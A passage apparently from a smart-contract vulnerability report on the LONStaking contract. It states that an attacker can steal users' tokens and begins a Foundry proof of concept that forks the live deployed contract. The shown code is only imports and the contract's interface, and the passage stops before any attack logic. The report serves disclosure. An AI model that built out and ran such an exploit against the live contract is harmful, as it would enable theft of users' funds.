 #### Impact

attacker steals the users tokens

### Proof Of Concept

below is the POC using foundry.by forking the actual contract deployed on blockchain i have demonstrated the strategy of the attacker

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;



import {console2} from "forge-std/console2.sol";
import {Test} from "forge-std/Test.sol";

interface LONStaking {
    event Approval(address indexed owner, address indexed spender, uint256 value);
    event Cooldown(address indexed user);
    event OwnerChanged(address indexed oldOwner, address indexed newOwner);
    event OwnerNominated(address indexed newOwner);
    event Paused(address account);
    event Recovered(address token, uint256 amount);
    event Redeem(address indexed user, uint256 share, uint256 redeemAmount, uint256 penaltyAmount);
    event SetCooldownAndRageExitParam(uint256 coolDownInDays, uint256 bpsRageExitPenalty);
    event Staked(address indexed user, uint256 amount, uint256 share);
    event Transfer(address indexed from, address indexed to, uint256 value);
    event Unpaused(address account);

    function BPS_RAGE_EXIT_PENALTY() external view returns (uint256);
    function COOLDOWN_IN_DAYS() external view returns (uint256);
    function COOLDOWN_SECONDS() external view returns (uint256);
    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external view returns (bytes32);
    function acceptOwnership() external;
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function cooldownRemainSeconds(address _account) external view returns (uint256);
    function decimals() external view returns (uint8);
    function decreaseAllowance(address spender, uint256 subtractedValue) external returns (bool);
    function increaseAllowance(address spender, uint256 addedValue) external returns (bool);
    function initialize(address _lonToken, address _owner, uint256 _COOLDOWN_IN_DAYS, uint256 _BPS_RAGE_EXIT_PENALTY)
        external;
    function lonToken() external view returns (address);
    function name() external view returns (string memory);
    function nominateNewOwner(address newOwner) external;
    function nominatedOwner() external view returns (address);
    function nonces(address) external view returns (uint256);
    function owner() external view returns (address);
    function pause() external;
    function paused() external view returns (bool);
    function permit(
        address _owner,
        address _spender,
        uint256 _value,
        uint256 _deadline,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) external;
```